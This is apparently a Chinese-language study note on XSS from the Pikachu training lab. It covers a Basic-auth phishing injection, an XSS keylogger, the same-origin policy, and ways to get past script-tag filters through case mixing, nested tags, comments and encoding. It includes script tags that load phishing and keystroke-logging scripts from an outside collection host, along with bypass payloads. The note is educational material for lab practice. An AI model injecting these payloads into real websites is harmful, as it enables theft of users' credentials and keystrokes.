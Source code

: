 一是在请求头中添加Authorization：  Authorization: "Basic 用户名和密码的base64加密字符串"  。
二是在url中添加用户名和密码。



`<script src="http://fx.com/pikachu/pkxss/xfish/fish.php"></script>`



![img](https://images2018.cnblogs.com/blog/1423598/201807/1423598-20180730101056652-242768290.gif)

#### XSS键盘记录

同源策略是浏览器的一个安全功能，不同源的客户端脚本在没有明确授权的情况下，不能读写对方资源。所以xyz.com下的js脚本采用ajax读取abc.com里面的文件数据是会被拒绝的。

同源策略限制了从同一个源加载的文档或脚本如何与来自另一个源的资源进行交互。这是一个用于隔离潜在恶意文件的重要安全机制。



![img](https://images2018.cnblogs.com/blog/867021/201808/867021-20180821164516674-696917443.png)

**注意,资源文件不受影响：**

 ```
<script src="...">
<img src="...">

 ```



`<script src="http://fx.com/pikachu/pkxss/rkeypress/rk.js"></script>`







### XSS防御绕过

```
str_repalace('<script>', '')
```



- 前端限制绕过，直接burpsuite改包
- 大小写，尝试`<ScRipT>alert(1);</SCRipt>`
- 拼凑，比如`<scri<script>pt>alert(1);</scri<script>pt>`
- 使用注释干扰 `<scri<!--test-->pt>alert(1)</scr<!--test-->ipt>`



####XSS绕过-过滤-编码

核心思想

后台过滤了特殊字符，比如说<script>标签，但该标签可以被各种编码，后台不一定过滤，当浏览器对该编码进行识别的时候，会翻译成正常的标签，从而被执行。

<img src=x onerror="alert('xxx')" 将alert('xxx')进行url编码

`<img src=x onerror="alert(%27xxx%27)" />`

**这样并不会执行，因为这些属性标签并不会正常解析这些编码**
